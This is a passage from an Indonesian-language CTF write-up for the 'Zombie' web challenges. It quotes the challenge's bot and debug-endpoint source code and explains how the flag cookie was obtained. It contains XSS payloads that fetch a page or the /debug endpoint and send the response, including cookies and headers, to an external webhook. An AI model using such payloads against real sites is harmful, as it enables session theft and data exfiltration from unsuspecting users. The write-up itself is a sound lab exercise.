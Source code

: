`bot.js`
```javascript
browser.setCookie({ name: 'flag', domain: hostname, path:'/', value: process.env.FLAG, httpOnly: httpOnly})
```

Tetapi kita bisa menggunakan fungsi debug yang berada di `index.js` untuk mendapatkan flagnya.

```javascript
// useful for debugging cloud deployments
app.get('/debug', function(req, res) {
    if (config.allowDebug) {
        res.send({"remote-ip": req.socket.remoteAddress, ...req.headers})
    }
    else {
        res.send('sorry, debug endpoint is not enabled')
    }
})
```

Jadi untuk mendapatkan flagnya kita bisa membuat request ke endpoint `/debug` untuk mendapatkan semua header dan juga flagnya.

Buat seperti berikut di endpoint `zombie` dan lakukan langkah-langkah seperti di challenge sebelumnya.

```javascript
<script>fetch("/debug").then(a=>a.text()).then(a=>fetch("https://webhook?"+a))</script>
```

Nanti kita akan mendapatkan flagnya di webhook server.

## Zombie 301
### Description
You did it again... nice job! The zombies are no problem for you.

Can you do it yet again?

You are half way through the gauntlet. You can do it!

### Exploit
Untuk challenge ini kita tidak bisa mengakses endpoint `/debug` dan juga mengakses flag dari javascript dikarenakan httponly.

Tetapi kita dapat memanfaatkan vulnerability yang terdapat di zombie js.

![](https://i.imgur.com/OJSsJpn.png)

Kita bisa payload seperti berikut untuk mendapatkan data dari sebuah request, termasuk juga cookienya.

```html 
<script>fetch("https://zombie-301-tlejfksioa-ul.a.run.app/").then((data) => fetch("https://webhook?c=".concat(JSON.stringify(data))));</script>
```
